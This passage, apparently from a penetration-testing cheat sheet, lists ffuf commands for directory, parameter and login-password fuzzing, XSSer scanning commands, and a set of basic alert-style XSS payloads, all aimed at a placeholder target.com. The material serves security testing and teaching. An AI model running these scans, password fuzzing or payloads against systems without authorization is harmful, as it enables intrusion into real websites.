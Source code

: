 ### FFuF (Fuzz Faster U Fool)

FFuF is a fast web fuzzer written in Go.

```bash
# Directory discovery
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://target.com/FUZZ

# Extension fuzzing
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://target.com/FUZZ.php

# Parameter fuzzing
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://target.com/index.php?FUZZ=value

# Value fuzzing
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://target.com/index.php?param=FUZZ

# POST data fuzzing
ffuf -w /usr/share/wordlists/dirb/common.txt -X POST -d "username=admin&password=FUZZ" -u http://target.com/login
```

## XSS Testing Tools

### XSSer

XSSer is an automatic framework to detect, exploit and report XSS vulnerabilities.

```bash
# Basic scan
xsser --url "http://target.com/page.php?id=1"

# With GET parameters
xsser -u "http://target.com/page.php" --get="id=XSS"

# With POST parameters
xsser -u "http://target.com/page.php" --post="id=XSS"

# With cookies
xsser -u "http://target.com/page.php" --cookie="PHPSESSID=1234abcd" --get="id=XSS"
```

### XSS Payloads

Common XSS payloads for manual testing:

```html
<!-- Basic alert -->
<script>alert('XSS')</script>

<!-- Image-based XSS -->
<img src="x" onerror="alert('XSS')">

<!-- JavaScript event handlers -->
<body onload="alert('XSS')">

<!-- JavaScript URI -->
<a href="javascript:alert('XSS')">Click me</a>

<!-- DOM-based XSS -->
<script>document.write("<img src='x' onerror='alert(\"XSS\")'>");</script>
```
